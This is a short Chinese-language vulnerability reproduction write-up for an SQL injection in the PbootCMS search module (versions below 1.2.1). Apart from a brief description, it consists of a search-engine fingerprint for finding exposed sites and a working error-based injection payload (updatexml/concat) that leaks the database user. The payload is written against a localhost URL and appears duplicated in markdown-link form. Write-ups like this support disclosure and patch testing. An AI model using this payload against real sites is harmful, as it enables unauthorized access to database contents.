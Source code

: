 # PbootCMS search SQL注入漏洞

# PbootCMS search SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

```
PbootCMS < 1.2.1
```

## 网络测绘 

```
app="PBOOTCMS"
```

## 漏洞复现

搜索框页面为

![](/images/202202170924485.png)Payload为

```plain
/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123)
```

![](/images/202202170924075.png)

